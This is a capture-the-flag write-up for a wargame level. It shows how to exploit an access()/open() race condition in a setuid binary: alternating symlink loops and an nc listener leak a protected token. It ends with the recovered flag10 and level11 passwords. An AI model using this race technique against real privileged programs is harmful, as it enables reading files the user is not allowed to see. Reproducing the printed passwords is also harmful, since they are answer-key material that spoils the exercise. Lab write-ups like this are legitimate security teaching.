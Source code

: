 We have two files: one token which we can't read beacuse only the owner `flag10` has read access, and a binary file that we can execute.
Using ghidra, and the usage, we unuderstand that this programm requires a file and a host.
Regarding of the host, we will use 0.0.0.0 as it will connect to every IPV4 of the machine
While decompiling the main of the binary file, we see the main issue :
First the program will check if the file passed as `argv[1]` can be accessed by the real user (in our case `level10`), and after that, the same programm will try to open the file.
Our goal is to trick the program to think that our `argv[1]` is our file, but in the end, it is the file `token`.
Furthermore, we need to stay connected to the socket opened by the program since the content of the readed file will be outputed there.
We will be doing so by using nc : `nc -kl 6969`
To trick our program, we will first create our file : `echo "Hello" > /tmp/our_file`
Next, we will create a symbolic link, linking altenatively `/tmp/our_file` and `/home/user/level10/token`.
We will be doing so by having a second shell running this command : 
`while true; do ln -sf /tmp/our_file /tmp/link; ln -fs /home/user/level10/token /tmp/link; done`
The `f` option will overide any existing symbolic link.
To be sure, you have : 
-First a link to our file to pass the `acces()` checkpoint
-Second a link to the file `token` when the program will try to open it,
we will run this command in a third shell :
`while true; do ./level10 /tmp/link 0.0.0.0; done`
In the shell listening to the socket, we will se 2 different ouptuts :
First :
```
.*( )*.
Hello
```
Second :
```
.*( )*.
woupa2yuojeeaaed06riuj63c
```
The second one is the password to connect as flag10:
```
su flag10
woupa2yuojeeaaed06riuj63c
```

```
su level11
feulo4b72j7edeahuete3no7c
```
